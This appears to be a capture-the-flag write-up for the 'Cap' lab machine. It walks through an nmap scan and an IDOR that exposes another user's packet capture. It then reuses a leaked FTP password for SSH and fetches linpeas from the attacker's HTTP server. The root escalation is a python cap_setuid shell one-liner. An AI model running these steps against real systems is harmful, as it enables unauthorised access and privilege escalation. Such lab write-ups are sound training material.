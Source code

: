 # Cap

*Linux* - Running an HTTP server that performs administrative functions including network captures. Improper controls result in IDOR giving access to another user's capture. It contains plaintext credentials and can be used to gain foothold. A Linux capability then is leveraged to escalate to root.

-----------------------
## Task 1

How many TCP ports are open?

## Solution 1

Run the scan via the Nmap:

```sh
nmap -sV 10.10.10.245
```

And this shows the open TCP ports, which in our case is three.

```sh
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Gunicorn
```

-----------
## Task 2

After running a "Security Snapshot", the browser is redirected to a path of the format `/[something]/[id]`, where `[id]` represents the id number of the scan. What is the `[something]`?

## Solution 2

On the page, there is a functionality "Security Snapshot", when we click on that one, it goes to a Security Dashboard whose URL is `/data/40`, so the answer to this is `data`.

------------
## Task 3

Are you able to get to other users' scans?

## Solution 3

As we saw on the previous task, the URL was `/data/40` which generates a `.pcap` security report, and if we open that with `Wireshark` we see that its just that.

The important point here is that in the URL there is an ID, which may suggest that there may be and `IDOR` vulnerability, so let's test it by giving some other number.

I gave some random numbers, such as 7, and downloaded the report, I see that it's the same source IP address, so it's ours.

But, when I gave the 0 as ID, it produced much more results, and there are different IP-s which are not mine, so yes, I can see other users scans, utilizing the IDOR vulenrability.

-------------
## Task 4

What is the ID of the PCAP file that contains sensitive data?

##  Solution 4

As was shown in the previous task, it is 0.

-----------

## Task 5

Which application layer protocol in the pcap file can the sensitive data be found in?

## Solution 5

On the Wireshark from the `0.pcap` we see sensitive information such as `username = nathan` and `password = Buck3tH4TF0RM3!` on the `ftp` protocol, so the answer here is `ftp`.

-------------

## Task 6

We've managed to collect nathan's FTP password. On what other service does this password work?

## Solution 6

From the **Task 1** we saw an `ssh` service, so we try to connect to that with the found credentials.

```sh
ssh nathan@10.10.10.245
```

And when provided with the password it connected to it, so the answer is `ssh`.

----------

## Task 7

Submit the flag located in the nathan user's home directory.

## Solution 7

We now are logged in on the `/home/nathan` directory, and we list the files:

```sh
ls -l
total 820
-rwxrwxr-x 1 nathan nathan 828287 Apr  2  2023 linpeas.sh
drwxr-xr-x 3 nathan nathan   4096 Mar 16 11:24 snap
-r-------- 1 nathan nathan     33 Mar 16 03:12 user.txt
```

I open the `user.txt`:

```sh
cat user.txt
9f961b671cb52c104970990247004b94
```

And this is the flag.

----------

## Task 8

What is the full path to the binary on this machine has special capabilities that can be abused to obtain root privileges?

## Solution 8

Let's download the `linPEAS` a Linux privilege escalation tool.

```sh
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```

But, this didn't work, as it was unable to resolve the host address, so I will download this to my machine, and then download it from the target machine.

```sh
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```

Then start a server, such as the one with python:

```sh
python3 -m http.server
```

Now, download it to the target machine:

```sh
wget http://10.10.14.187:8000/linpeas.sh
```

Add the execution permissions:

```sh
chmod +X linpeas.sh
```

And from the results we see a highlighted file that is a *file with capabilities*:

```sh
Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

The answer to this task is `/usr/bin/python3.8`.

-----------

## Final Task

Submit the flag located in root's home directory.

## Solution

File with capabilities means that the binary has the `CAP_SETUID` capability set or it is executed by another binary with the capability set.

And being such, it can be used to manipulate the process UID and escalate privileges

This can be done by executing:

```sh
python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

Now I'm root:

```sh
whoami
root
```

Navigate to the root's home folder.

```sh
cd /root
```

There we have a `root.txt` file, which has the flag:

```sh
cat root.txt
a123e36a0476425550c6432f5d403cbe
```

Which is the final flag and solves the lab.

